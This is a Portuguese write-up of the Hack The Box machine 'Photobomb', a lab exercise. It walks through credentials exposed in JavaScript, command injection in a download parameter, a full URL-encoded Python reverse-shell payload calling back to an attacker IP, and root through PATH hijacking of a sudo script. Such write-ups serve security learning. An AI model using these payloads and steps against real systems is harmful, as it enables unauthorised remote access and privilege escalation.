# Photobomb 

### Máquina avaliada na estatísticas da plataforma como "CTF-Like", na categoria de máquinas fáceis.

  

# Write-up

### Primeiros passos
    Quando se trata de CTFs, um passo muito comum é rodar um NMAP para escanear a rede em busca de portas abertas e mapear melhor a estrutura de rede do alvo. 



    Nota-se que as portas 22 e 80 estão abertas, podemos observar também que na porta 80 estamos sendo direcionados para a URL "http://photobomb.htb". Podemos então adicionar este endereço para o nosso arquivo "/etc/hosts".

   

    Ao acessar o endereço desta paǵina web, obtemos a seguinte landing page:



    Temos muitas opções do que verificar a partir daqui, porém uma das maneiras mais comuns de se começar é ler o código fonte da página.
    
    Ao ler o código fonte, podemos notar um script chamado "photobomb.js", conforme imagem abaixo.


   
    
    Podemos acessar o script clicando nele, e após isto somos levados para o seu código fonte. Onde podemos observar uma função que manipula o DOM da página, com a classe "creds" (credenciais). 

    A URL da imagem abaixo aparenta ser um login e uma senha, e após isto um diretório no site "/printer".


   

    Agora temos credenciais para acessar algo, e um diretório no website. Vamos prosseguir para o diretório /printer e ver o que nos aguarda.

    Perfeito! Somos recebidos com um pedido de login, basta usarmos as credenciais obtidas anteriormente.

   


    
    Ao obter acesso neste diretorio, podemos encontrar este botão de "Download" e explorar melhor esta funcionalidade capturando a requisição utilizando o burp.

   



    Nesta requisição, temos 03 parâmetros diferentes e a primeira opção seria testar um "command injection" e ver se algum deles está vulnerável.

    Podemos testar isto com um webhook, ou até mesmo através de um servidor web local, como o módulo http.server do Python.

    Para simplificar o nosso caminho, vamos usar o módulo Python.

    $ python3 -m http.server 80

   



    Ao testar o parâmetro "filetype", podemos constatar que este está vulnerável pois conseguimos executar o comando anterior.

   



   

    Agora basta inserirmos o payload correto e podemos obter um shell reverso, recomendo o site "revshells.com" que é uma excelente ferramenta nestes momentos.

    PAYLOAD Url-encoded:  (SUBSTITUIR 10.10.X.X)
    export%20RHOST%3D%2210.10.X.X2%22%3Bexport%20RPORT%3D4444%3Bpython3%20-c%20%27import%20sys%2Csocket%2Cos%2Cpty%3Bs%3Dsocket.socket%28%29%3Bs.connect%28%28os.getenv%28%22RHOST%22%29%2Cint%28os.getenv%28%22RPORT%22%29%29%29%29%3B%5Bos.dup2%28s.fileno%28%29%2Cfd%29%20for%20fd%20in%20%280%2C1%2C2%29%5D%3Bpty.spawn%28%22sh%22%29%27

   



   

## Caminho para o ROOT

    A maneira mais direta para o usuário Root, geralmente é ver quais comandos o usuário atual pode executar como root.

    Para isto, utilizamos o comando "sudo -l" e notamos que podemos rodar um script chamado "cleanup.sh"



    Basicamente este comando armazena o conteúdo do arquivo "photomb.log" em um arquivo chamado "photobomb.log.old" e após isto limpa seu conteúdo.

    A vulnerabilidade deste script "cleanup.sh" está na maneira em que ele troca de diretório, podemos observar que o autor do script usou caminhos relativos e não absolutos para referenciar os binários "cd" e "find".

    Logo, podemos criar arquivos "cd" e "find" maliciosos na pasta /tmp (onde todos os usuários podem gravar arquivos). 

    Estes arquivos "cd" e "find" maliciosos só possuirão o comando "/bin/bash" e permissão de execuão que irá chamar um terminal com o usuário no qual estamos executando o comando, que neste caso, será o usuário root.



    Após criar os binários "cd" e "find" com o mesmo payload ("/bin/bash") e garantir permissões de execução, basta apenas executarmos o comando:
    sudo PATH=/tmp:$PATH /opt/cleanup.sh que modificará a variável de ambiente "PATH" e fará com que os binários locais sejam executados antes dos demais binários, garantindo então nosso acesso root.



### Agradeço ao time Hack The Box pela máquina e pelo grande aprendizado!
@tokram
